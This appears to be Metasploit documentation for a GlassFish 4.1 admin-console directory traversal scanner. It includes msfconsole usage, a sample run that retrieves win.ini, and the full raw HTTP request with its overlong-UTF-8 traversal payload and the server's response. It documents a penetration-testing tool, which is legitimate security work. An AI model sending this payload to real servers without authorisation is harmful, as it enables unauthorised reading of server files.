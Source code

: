 ## Vulnerable Application

This module exploits an unauthenticated directory traversal vulnerability which exists in administration console of,
Oracle GlassFish Server 4.1, which is listening by default on port 4848/TCP.

Related links :

* https://www.exploit-db.com/exploits/39441/
* https://www.trustwave.com/Resources/Security-Advisories/Advisories/TWSL2015-016/?fid=6904
* http://download.oracle.com/glassfish/4.1/release/glassfish-4.1.zip - Download Oracle Glass Fish 4.1

## Verification Steps

  1. Start msfconsole
  2. Do: ```use auxiliary/scanner/http/glassfish_traversal```
  3. Do: ```set RHOSTS [IP]```
  4. Do: ```run```
  
## Scenarios

```
msf > use auxiliary/scanner/http/glassfish_traversal 
msf auxiliary(scanner/http/glassfish_traversal) > set RHOSTS 192.168.1.105
RHOSTS => 192.168.1.105
msf auxiliary(scanner/http/glassfish_traversal) > set verbose true
verbose => true
msf auxiliary(scanner/http/glassfish_traversal) > run

[+] 192.168.1.105:4848 - ; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
[MCI Extensions.BAK]
3g2=MPEGVideo
3gp=MPEGVideo
3gp2=MPEGVideo
3gpp=MPEGVideo
aac=MPEGVideo
adt=MPEGVideo
adts=MPEGVideo
m2t=MPEGVideo
m2ts=MPEGVideo
m2v=MPEGVideo
m4a=MPEGVideo
m4v=MPEGVideo
mod=MPEGVideo
mov=MPEGVideo
mp4=MPEGVideo
mp4v=MPEGVideo
mts=MPEGVideo
ts=MPEGVideo
tts=MPEGVideo

[+] File saved in: /home/input0/.msf4/loot/20180804132151_default_192.168.1.105_oracle.traversal_244542.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/glassfish_traversal) >
```

## HTTP Request

```
GET /theme/META-INF/prototype%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%afwindows/win.ini HTTP/1.1
Host: 192.168.1.105:4848
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=3c54ae091ab200dc3ce8ecfff7c1
Connection: close
Upgrade-Insecure-Requests: 1
If-Modified-Since: Sat, 04 Aug 2018 05:53:42 GMT
```

## HTTP Response

```
HTTP/1.1 200 OK
Content-Length: 403
Content-Type: text/plain
Expires: Mon, 30 Jul 2018 11:16:55 GMT
Last-Modified: Tue, 14 Jul 2009 05:09:22 GMT
Server: Microsoft-HTTPAPI/2.0
Date: Sun, 29 Jul 2018 06:46:55 GMT
Connection: close

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
[MCI Extensions.BAK]
3g2=MPEGVideo
3gp=MPEGVideo
3gp2=MPEGVideo
3gpp=MPEGVideo
aac=MPEGVideo
adt=MPEGVideo
adts=MPEGVideo
m2t=MPEGVideo
m2ts=MPEGVideo
m2v=MPEGVideo
m4a=MPEGVideo
m4v=MPEGVideo
mod=MPEGVideo
mov=MPEGVideo
mp4=MPEGVideo
mp4v=MPEGVideo
mts=MPEGVideo
ts=MPEGVideo
tts=MPEGVideo
```
